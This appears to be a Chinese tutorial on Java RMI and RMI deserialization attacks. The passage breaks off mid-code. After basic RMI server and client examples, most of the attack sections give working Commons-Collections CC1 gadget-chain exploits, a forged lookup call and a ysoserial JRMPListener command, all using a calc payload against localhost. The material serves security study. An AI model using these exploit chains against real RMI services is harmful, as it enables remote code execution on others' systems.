# java反序列化进阶

# RMI基础

## RMI 介绍

RMI 全称 Remote Method Invocation（远程方法调用），即在一个 JVM 中 Java 程序调用在另一个远程 JVM 中运行的 Java 程序，这个远程 JVM 既可以在同一台实体机上，也可以在不同的实体机上，两者之间通过网络进行通信。

RMI 依赖的通信协议为 JRMP(Java Remote Message Protocol，Java 远程消息交换协议)，该协议为 Java 定制，要求服务端与客户端都为 Java 编写。

- 像HTTP 协议一样，规定了客户端和服务端通信要满足的规范。

RMI 包括以下三个部分



```
Server ———— 服务端：服务端通过绑定远程对象，这个对象可以封装很多网络操作，也就是 Socket
Client ———— 客户端：客户端调用服务端的方法
```

因为有了 C/S 的交互，而且 Socket 是对应端口的，这个端口是动态的，所以这里引进了第三个 RMI 的部分 ———— Registry 部分。

- Registry ———— 注册端；提供服务注册与服务获取。即 Server 端向 Registry 注册服务，比如地址、端口等一些信息，Client 端从 Registry 获取远程对象的一些信息，如地址、端口等，然后进行远程调用。

---

## RMI 的实现

这里把服务端与客户端拆分成两个工程来做，会更有助于理解。

先来写服务端 ———— Server

### 服务端

**1. 先编写一个远程接口，其中定义了一个 sayHello() 的方法**

```
package org.mixbp;

import java.rmi.Remote;
import java.rmi.RemoteException;

public interface RemoteObj extends Remote {
    public String sayHello(String keywords) throws RemoteException;
}

```

此远程接口要求作用域为 public；
继承 Remote 接口；
让其中的接口方法抛出异常

---

**2. 定义该接口的实现类 Impl**

```
package org.mixbp;

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class RemoteObjImpl extends UnicastRemoteObject implements RemoteObj{
    public RemoteObjImpl() throws RemoteException{
        //    UnicastRemoteObject.exportObject(this, 0); // 如果不能继承 UnicastRemoteObject 就需要手工导出
    }

    @Override
    public String sayHello(String keywords) throws RemoteException{
        String upKeywords = keywords.toUpperCase();
        System.out.println(keywords);
        return upKeywords;
    }


}

```

- 实现远程接口
- 继承 UnicastRemoteObject 类，用于生成 Stub（存根）和 Skeleton（骨架）。 这个在后续的通信原理当中会讲到
- 构造函数需要抛出一个RemoteException错误
- 实现类中使用的对象必须都可序列化，即都继承`java.io.Serializable`

---

**3. 注册远程对象**

```
package org.mixbp;

import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String[] args) throws RemoteException, AlreadyBoundException {
        // 实例化远程对象
        RemoteObj remoteObj = new RemoteObjImpl();
        // 创建注册中心
        Registry registry = LocateRegistry.createRegistry(1099);
        // 绑定对象示例到注册中心
        registry.bind("remoteObj", remoteObj);
    }

}

```

- port 默认是 1099，不写会自动补上，其他端口必须写
- bind 的绑定这里，只要和客户端去查找的 registry 一致即可。

---

### 客户端

客户端只需从从注册器中获取远程对象，然后调用方法即可。当然客户端还需要一个远程对象的接口，不然不知道获取回来的对象是什么类型的。

所以在客户端这里，也需要定义一个远程对象的接口：

```
package org.mixbp;

import java.rmi.Remote;
import java.rmi.RemoteException;

public interface RemoteObj extends Remote {
    public String sayHello(String keywords) throws RemoteException;
}
```

然后编写客户端的代码，获取远程对象，并调用方法

```
package org.mixbp;

import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIClient {
    public static void main(String[] args) throws RemoteException, NotBoundException {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        RemoteObj remoteObj = (RemoteObj) registry.lookup("remoteObj");
        remoteObj.sayHello("hello");
    }
}

```

这样就能够从远端的服务端中调用 RemoteHelloWorld 对象的 `sayHello()` 方法了。

---

## RMI通信原理

实际建⽴了两次 TCP 连接，第一次是去连 1099 端口的；第二次是由服务端发送给客户端的。

在第一次连接当中，是客户端连 Registry 的，在其中寻找 Name 为 hello 的对象，这个对应数据流中的 Call 消息；然后 Registry 返回⼀个序列化的数据，这个就是找到的 `Name=Hello` 的对象，这个对应数据流中的ReturnData消息。

到了第二次连接，服务端发送给客户端 Call 的消息。客户端反序列化该对象，发现该对象是⼀个远程对象，地址在 172.17.88.209:24429，于是再与这个地址建⽴ TCP 连接；在这个新的连接中，才执⾏真正远程⽅法调⽤，也就是 `sayHello()`

RMI Registry 就像⼀个⽹关，他⾃⼰是不会执⾏远程⽅法的，但 RMI Server 可以在上⾯注册⼀个 Name 到对象的绑定关系；RMI Client 通过 Name 向 RMI Registry 查询，得到这个绑定关系，然后再连接 RMI Server；最后，远程⽅法实际上在 RMI Server 上调⽤。

---

# RMI 的基本攻击方式

根据 RMI 的部分，有这么一些攻击方式

- RMI Client 打 RMI Registry
- RMI Client 打 RMI Server
- RMI Client

---

## 1.、攻击 RMI Registry（注册中心）

只有一种：客户端打注册中心

注册中心的交互主要是这一句话

```
Naming.bind("rmi://127.0.0.1:1099/sayHello", new RemoteObjImpl());
```

这里的交互方式不只是只有 bind，还有其他的一系列方式，如下

我们与注册中心进行交互可以使用如下几种方式：

- list
- bind
- rebind
- unbind
- lookup

这几种方法位于 `RegistryImpl_Skel#dispatch` 中，如果存在对传入的对象调用 `readObject()` 方法，则可以利用，`dispatch` 里面对应关系如下：

`dispatch` 方法是 **RMI 服务端的请求分发器**，核心作用就一句话：

> **接收客户端发来的请求，根据操作编号调用本地对应的方法，然后把结果返回给客户端。**

- 0 —– bind
- 1 —– list
- 2 —– lookup
- 3 —– rebind
- 4 —– unbind

除了 list 和 lookup 两个，其余的交互在 8u121 之后都是需要 localhost 

---

### 使用 list() 方法进行攻击

用 `list()` 方法可以列出目标上所有绑定的对象：

在 RMIClient 文件夹里面新建一个新的 java.class、后续的攻击是从用户的客户端出发，往服务端打

```
// 针对 Registry 的 list 鸡肋攻击  
import java.rmi.Naming;  
import java.rmi.RemoteException;  
  
// 针对 Registry 的 list 鸡肋攻击  
public class RegistryListAttack {  
    public static void main(String[] args) throws Exception{  
        RemoteObj remoteObj = new RemoteObj() {  
            @Override  
 public String sayHello(String keywords) throws RemoteException {  
                return null;  
 }  
        };  
 String[] s = Naming.list("rmi://127.0.0.1:1099");  
 System.out.println(s);  
 }  
}
```

运行结果，打印

```
[Ljava.lang.String;@4b1210ee
```

我们可以跳进 `RegistryImpl_Skel#dispatch` 看一下，list 对应的是 case1



可以发现这里只有writeObject()没有readOject()

---

### bind 或 rebind 的攻击

直接查看bind方法和rebind方法的源码

case 0是bind方法



case2 是 rebind 方法



可以看到这两个方法都调用了反序列化readObject()方法，进行反序列化的参数是参数名以及远程对象

所以这个 bind 和 rebind 的服务端，就有可能作为反序列化攻击的入口类，如果服务端这里存在 CC 链相关的组件漏洞，那么就可以反序列化攻击。

```
<dependencies>  
 <!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->  
 	<dependency>  
 	<groupId>commons-collections</groupId>  
	 <artifactId>commons-collections</artifactId>  
	 <version>3.2.1</version>  
 </dependency></dependencies>
```

**注意：这里客户端和服务端都需要有CC链依赖**

我们这里尝试一下CC1链

CC1链子入口类以及开头是InvocationHandler.readObject()，现在我们需要让客户端的 `bind()` 方法执行 `readObject()`。

所以我们把 CC1 的那串恶意类拿出来就可以了，让 Proxy 执行 `newProxyInstance()` 即可

```
package org.mixbp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class AttackRegistryEXP {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke"
                        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("value","drunkbaby");
        Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor aihConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        aihConstructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler)aihConstructor.newInstance(Target.class, transformedMap);


        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        Remote remote = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(),new Class[] { Remote.class }, invocationHandler));
        registry.bind("test",remote);

    }

}
```

**本地 CC1 链不需要代理，因为 `ObjectInputStream.readObject()` 接受任何对象；RMI bind 攻击必须用代理包装，因为 `Registry.bind()` 的第二个参数强制要求 `Remote` 类型。**

**Remote.class.cast 这里实际上是将一个代理对象转换为了 Remote 对象，因为 `bind()` 方法这里需要传入 Remote 对象。**

- **rebind 的攻击也是如此，将 `registry.bind("test",remote);` 替换为 `rebind()` 方法即可。**

---

### unbind 或 lookup 的攻击

先看看unbind和lookup对应的源码





大致的思路还是和 `bind/rebind` 思路是一样的，但是 lookup 这里只可以传入 `String` 类型，这里我们可以通过伪造 `lookup` 连接请求进行利用，修改 `lookup` 方法代码使其可以传入对象。

我们可以利用反射来实现这种攻击。

EXP

```
package org.mixbp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import sun.rmi.server.UnicastRef;
import java.rmi.server.Operation;

import java.io.ObjectOutput;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;
import java.util.HashMap;
import java.util.Map;

public class AttackRegistryEXP {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke"
                        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("value","drunkbaby");
        Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor aihConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        aihConstructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler)aihConstructor.newInstance(Target.class, transformedMap);

        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        Remote remote = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(),new Class[] { Remote.class }, invocationHandler));

        Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
        fields_0[0].setAccessible(true);
        UnicastRef ref = (UnicastRef) fields_0[0].get(registry);

        //获取operations

        Field[] fields_1 = registry.getClass().getDeclaredFields();
        fields_1[0].setAccessible(true);
        Operation[] operations = (Operation[]) fields_1[0].get(registry);


        // 伪造lookup的代码，去伪造传输信息
        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(remote);
        ref.invoke(var2);
    }
}

```

**`lookup()` 本不能传对象，但攻击者**绕过它的方法签名**，直接用底层的 `RemoteCall` 伪造 RMI 协议包，强行向 `lookup` 的参数位置写入恶意对象，触发反序列化漏洞。**

**攻击步骤**

| 步骤 | 操作                          | 目的                                |
| :--- | :---------------------------- | :---------------------------------- |
| 1    | 反射拿到 `UnicastRef`         | 获取 RMI 底层通信对象               |
| 2    | 反射拿到 `operations` 数组    | 获取 `lookup` 的方法编号（opnum=2） |
| 3    | 调用 `ref.newCall()` 伪造请求 | 绕过接口限制，直接写入恶意对象      |

---

## 2、攻击客户端

在 `unmarshalValue()` 地方存在入口类。

### 注册中心攻击客户端

对于注册中心来说，我们还是从这几个方法触发：

- bind
- unbind
- rebind
- list
- lookup

除了`unbind`和`rebind`都会返回数据给客户端，返回的数据是序列化形式，那么到了客户端就会进行反序列化，如果我们能控制注册中心的返回数据，那么就能实现对客户端的攻击，这里使用ysoserial的JRMPListener，因为 EXP 太长了

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 calc
```

然后使用客户端去访问：

```
import java.rmi.Naming;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
 
public class Client {
    public static void main(String[] args) throws RemoteException {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        registry.list();
    }
}
```

成功弹出计算器



---

### 服务端攻击客户端

服务端攻击客户端，大抵可以分为以下两种情景。

1. 服务端返回Object对象
2. 远程加载对象

#### 服务端返回Object对象

在RMI中，远程调用方法传递回来的不一定是一个基础数据类型（String、int），也有可能是对象，当服务端返回给客户端一个对象时，客户端就要对应的进行反序列化。所以我们需要伪造一个服务端，当客户端调用某个远程方法时，返回的参数是我们构造好的恶意对象。这里以CC1为例：

构造一个User接口，返回Object对象

```
package org.mixbp;

public interface User extends java.rmi.Remote{
    public Object getUser() throws Exception;
}
```

- 服务端实现 User 接口，返回 CC1 的恶意 Object 对象

```
package org.mixbp;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.Serializable;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
import java.util.HashMap;
import java.util.Map;


public class ServerReturnObject extends UnicastRemoteObject implements User {
    public String name;
    public int age;

    public ServerReturnObject(String name, int age) throws RemoteException {
        super();
        this.name = name;
        this.age = age;
    }

    public Object getUser() throws Exception{


        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke"
                        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };


        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationHandlerConstructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) annotationInvocationHandlerConstructor.newInstance(Override.class,decorateMap);

        Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, invocationHandler);
        InvocationHandler invocationHandler1 = (InvocationHandler) annotationInvocationHandlerConstructor.newInstance(Override.class,proxyMap);

        return (Object) invocationHandler1;
    }

}

```

- 服务端将恶意对象绑定到注册中心

```
package org.mixbp;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class EvilClassServer {
    public static void main(String[] args) throws RemoteException, AlreadyBoundException{
        User lilei = new ServerReturnObject("lilei",15);

        Registry registry = LocateRegistry.createRegistry(1099);
        registry.bind("user",lilei);

        System.out.println("registry is running...");
        System.out.println("liming is bind in registry");
    }
}

```

- 客户端获取对象并调用 `getUser()` 方法，将反序列化服务端传来的恶意远程对象。

```
package org.mixbp;

import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIClient3 {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        User user = (User)registry.lookup("user");
        user.getUser();
    }

}

```

成功反序列化弹出计算器。

---

#### 加载远程对象

当服务端的某个方法返回的对象是客户端没有的时，客户端可以指定一个URL，此时会通过URL来实例化对象。

**java.rmi.server.codebase：**codebase是一个地址，告诉Java虚拟机我们应该从哪个地方去搜索类，有点像我们日常用的 CLASSPATH，但CLASSPATH是本地路径，而codebase通常是远程URL，比如http、ftp等。

RMI核心特点之一就是动态类加载，如果当前JVM中没有某个类的定义，它可以从远程URL去下载这个类的class，动态加载的class文件可以使用`http://`、`ftp://`、file://进行托管。这可以动态的扩展远程应用的功能，RMI注册表上可以动态的加载绑定多个RMI应用。对于客户端而言，如果服务端方法的返回值可能是一些子类的对象实例，而客户端并没有这些子类的class文件，如果需要客户端正确调用这些**子类**中被重写的方法，客户端就需要从服务端提供的`java.rmi.server.codebase`URL去加载类；对于服务端而言，如果客户端传递的方法参数是远程对象接口方法参数类型的**子类**，那么服务端需要从客户端提供的`java.rmi.server.codebase`URL去加载对应的类。客户端与服务端两边的`java.rmi.server.codebase`URL都是互相传递的。无论是客户端还是服务端要远程加载类，都需要满足以下条件：

1. 由于Java SecurityManager的限制，默认是不允许远程加载的，如果需要进行远程加载类，需要安装RMISecurityManager并且配置`java.security.policy`，这在后面的利用中可以看到。
2. 属性 `java.rmi.server.useCodebaseOnly` 的值必需为false。但是从JDK 6u45、7u21开始，`java.rmi.server.useCodebaseOnly` 的默认值就是true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前虚拟机的`java.rmi.server.codebase` 指定路径加载类文件。使用这个属性来防止虚拟机从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

利用条件十分苛刻，可用性不强。

---

## 3、攻击服务端

#### 客户端打服务端

服务端代码

```
import java.rmi.Naming;  
import java.rmi.RemoteException;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.server.UnicastRemoteObject;  
  
public class VictimServer {  
    public class RemoteHelloWorld extends UnicastRemoteObject implements RemoteObj {  
        protected RemoteHelloWorld() throws RemoteException {  
            super();  
 }  
  
        public String hello() throws RemoteException {  
            System.out.println("调用了hello方法");  
 return "Hello world";  
 }  
  
        public void evil(Object obj) throws RemoteException {  
            System.out.println("调用了evil方法，传递对象为："+obj);  
 }  
  
        @Override  
 public String sayHello(String keywords) throws RemoteException {  
            return null;  
 }  
    }  
    private void start() throws Exception {  
        RemoteHelloWorld h = new RemoteHelloWorld();  
 LocateRegistry.createRegistry(1099);  
 Naming.rebind("rmi://127.0.0.1:1099/Hello", h);  
 }  
  
    public static void main(String[] args) throws Exception {  
        new VictimServer().start();  
 }  
}
```

- jdk版本1.7
- 使用具有漏洞的Commons-Collections3.1组件
- RMI提供的数据有Object类型（因为攻击payload就是Object类型）

客户端代码：

```
import Server.IRemoteHelloWorld;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
 
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.Naming;
import java.util.HashMap;
import java.util.Map;
import Server.IRemoteHelloWorld;
 
public class RMIClient {
    public static void main(String[] args) throws Exception {
        IRemoteHelloWorld r = (IRemoteHelloWorld) Naming.lookup("rmi://127.0.0.1:1099/Hello");
        r.evil(getpayload());
    }
 
    public static Object getpayload() throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
